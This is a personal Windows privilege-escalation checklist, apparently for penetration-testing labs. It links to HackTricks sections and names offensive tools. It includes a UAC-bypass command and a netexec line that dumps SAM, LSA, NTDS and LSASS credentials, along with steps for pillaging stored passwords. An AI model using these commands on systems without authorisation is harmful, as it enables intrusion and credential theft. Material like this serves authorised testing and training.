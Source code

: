 ## Privesc Strategy
- [ ] Run sharpup try the abuse functions
- [ ] winpeas (targeted scripts not all but use all at the end of the enumeration)
- [ ] are you able to identify what host this is? (server or user station? this may guide you through the credential hunting process)
- [ ] (type out the host details here)
- [ ] Priv esc was unsucessful?
- [ ] run pillaging tools and look manually at user dirs.
- if the privesc was succesful move to phase two of post exploitation: pillaging.
- [ ] run netexec with: --sam  --lsa --ntds -M lsassy (dumps memory)
- [ ] Lazagne
- [ ] snaffler, 
- [ ] sessiongopher
### UAC
if u got admin user or added one, and uac is blocking actions, try this script
https://github.com/FuzzySecurity/PowerShell-Suite/blob/master/Bypass-UAC/Bypass-UAC.ps1 
```powershell-session
Import-Module .\Bypass-UAC.ps1
Bypass-UAC -Method UacMethodSysprep
```

## 🟢 Quick & Easy Checks (Low Effort, High Reward)
- [ ] 1. Run WinpeasAny,
- [ ] run systeminfo, copy to kali and run wes-ng
```
systeminfo > \\10.10.16.x\tools\systeminfo.txt
```
- [ ] seatbelt,
- [ ]  run Sharpup, check for abuse functions (autoPwn)
- [ ] Obtain [**System information**](https://book.hacktricks.wiki/en/windows-hardening/windows-local-privilege-escalation/index.html#system-info)
- [ ] Check [**current** user **privileges**](https://book.hacktricks.wiki/en/windows-hardening/windows-local-privilege-escalation/index.html#users-and-groups)
- [ ] is UAC enabled?
- [ ] Are you [**member of any privileged group**](https://book.hacktricks.wiki/en/windows-hardening/windows-local-privilege-escalation/index.html#privileged-groups)?/domain groups?
- [ ] Check if you have [sensitive tokens](https://book.hacktricks.wiki/en/windows-hardening/windows-local-privilege-escalation/index.html#token-manipulation) enabled (**SeImpersonatePrivilege, SeDebugPrivilege, etc.**)
- [ ] [**AlwaysInstallElevated**](https://book.hacktricks.wiki/en/windows-hardening/windows-local-privilege-escalation/index.html#alwaysinstallelevated)?
- [ ] Interesting info in [**env vars**](https://book.hacktricks.wiki/en/windows-hardening/windows-local-privilege-escalation/index.html#environment)?
- [ ] Passwords in [**PowerShell history**](https://book.hacktricks.wiki/en/windows-hardening/windows-local-privilege-escalation/index.html#powershell-history)?
- [ ] Check [**users homes**](https://book.hacktricks.wiki/en/windows-hardening/windows-local-privilege-escalation/index.html#home-folders)
- [ ] [**Password Policy**](https://book.hacktricks.wiki/en/windows-hardening/windows-local-privilege-escalation/index.html#password-policy)
- [ ] What’s in the [**Clipboard**](https://book.hacktricks.wiki/en/windows-hardening/windows-local-privilege-escalation/index.html#get-the-content-of-the-clipboard)?
- [ ] [**User Sessions**](https://book.hacktricks.wiki/en/windows-hardening/windows-local-privilege-escalation/index.html#logged-users-sessions)
- [ ] [**Cached Credentials**](https://book.hacktricks.wiki/en/windows-hardening/windows-local-privilege-escalation/index.html#cached-credentials)?
- [ ] [**UAC bypasses**](https://github.com/carlospolop/hacktricks/blob/master/windows-hardening/authentication-credentials-uac-and-efs/uac-user-account-control/README.md)

---

## 🟡 Medium Effort (Enumeration & Targeted Exploits)
### Services & Processes
- [ ] [Can you **modify any service**?](https://book.hacktricks.wiki/en/windows-hardening/windows-local-privilege-escalation/index.html#permissions)
- [ ] [Unquoted service paths](https://book.hacktricks.wiki/en/windows-hardening/windows-local-privilege-escalation/index.html#unquoted-service-paths)?
- [ ] [Service registry modifications](https://book.hacktricks.wiki/en/windows-hardening/windows-local-privilege-escalation/index.html#services-registry-modify-permissions)?
- [ ] Processes binaries [**file and folders permissions**](https://book.hacktricks.wiki/en/windows-hardening/windows-local-privilege-escalation/index.html#file-and-folder-permissions)
- [ ] Steal credentials from **interesting processes** (`ProcDump.exe` on browsers, etc.)
- [ ] [**Insecure GUI apps**](https://book.hacktricks.wiki/en/windows-hardening/windows-local-privilege-escalation/index.html#insecure-gui-apps)
- [ ] [**Memory Password mining**](https://book.hacktricks.wiki/en/windows-hardening/windows-local-privilege-escalation/index.html#memory-password-mining)
## Medium 2: network users, 


### Applications / DLL Hijacking
- [ ] **Write perms on installed apps**?
- [ ] [**Startup Applications** abuse](https://book.hacktricks.wiki/en/windows-hardening/windows-local-privilege-escalation/index.html#run-at-startup)?
- [ ] [**DLL Hijacking**](https://book.hacktricks.wiki/en/windows-hardening/windows-local-privilege-escalation/index.html#path-dll-hijacking): PATH folders writable? Non-existent DLLs?
- [ ] [**Vulnerable Drivers**](https://book.hacktricks.wiki/en/windows-hardening/windows-local-privilege-escalation/index.html#drivers)

### Network ANY LOCAL PORTS WORTH FORWARDING?
- [ ] Check **current** [**network info**](https://book.hacktricks.wiki/en/windows-hardening/windows-local-privilege-escalation/index.html#network)
- [ ] Internal ports running local services `netstat`
- [ ] Enumerate shares, routes, neighbors
- [ ] Look at hidden services restricted externally

## 🔴 Harder / Advanced Paths (Last Resort)
- [ ] [**WSUS exploit**](https://book.hacktricks.wiki/en/windows-hardening/windows-local-privilege-escalation/index.html#wsus)?
- [ ] [**Winlogon credentials**](https://book.hacktricks.wiki/en/windows-hardening/windows-local-privilege-escalation/index.html#winlogon-credentials)
- [ ] [**Windows Vault**](https://book.hacktricks.wiki/en/windows-hardening/windows-local-privilege-escalation/index.html#credentials-manager-windows-vault)
- [ ] [**DPAPI credentials**](https://book.hacktricks.wiki/en/windows-hardening/windows-local-privilege-escalation/index.html#dpapi)?
- [ ] Saved [**RDP connections**](https://book.hacktricks.wiki/en/windows-hardening/windows-local-privilege-escalation/index.html#saved-rdp-connections)?
- [ ] [**Wifi passwords**](https://book.hacktricks.wiki/en/windows-hardening/windows-local-privilege-escalation/index.html#wifi)
- [ ] Credentials in [**recent commands**](https://book.hacktricks.wiki/en/windows-hardening/windows-local-privilege-escalation/index.html#recently-run-commands)?
- [ ] [**AppCmd.exe / SCClient.exe** abuse](https://book.hacktricks.wiki/en/windows-hardening/windows-local-privilege-escalation/index.html#scclient-sccm)
- [ ] [**Files & Registry Credentials**](https://book.hacktricks.wiki/en/windows-hardening/windows-local-privilege-escalation/index.html#files-and-registry-credentials) (Putty, unattended.xml, SAM, IIS configs, browser creds, cloud creds, etc.)
- [ ] [**Leaked Handlers**](https://book.hacktricks.wiki/en/windows-hardening/windows-local-privilege-escalation/index.html#leaked-handlers)?
- [ ] [**Pipe Client Impersonation**](https://book.hacktricks.wiki/en/windows-hardening/windows-local-privilege-escalation/index.html#named-pipe-client-impersonation)

---

## 🕳️ Last Resort
- [ ] check networks
- [ ] listen for network traffic/poison using wireshark/responder
> Spend some time and read over the results of your enumeration. If WinPEAS or another tool finds something interesting, make a note of it. Avoid rabbit holes by creating a checklist of things you need for the privilege escalation method to work.
> 
> Have a quick look around for files in your user’s desktop and other common locations (e.g. C:\ and C:\Program Files). Read through interesting files that you find, as they may contain useful information that could help escalate privileges.
> 
> Try things that don’t have many steps first, e.g. registry exploits, services, etc. Have a good look at admin processes, enumerate their versions and search for exploits. 

 - **Check for internal ports that you might be able to forward to your attacking machine.

> If you still don’t have an admin shell, re-read your full enumeration dumps and highlight anything that seems odd. This might be a process or file name you aren’t familiar with or even a username. At this stage you can also start to think about Kernel Exploits.
  - [ ] Use **Google**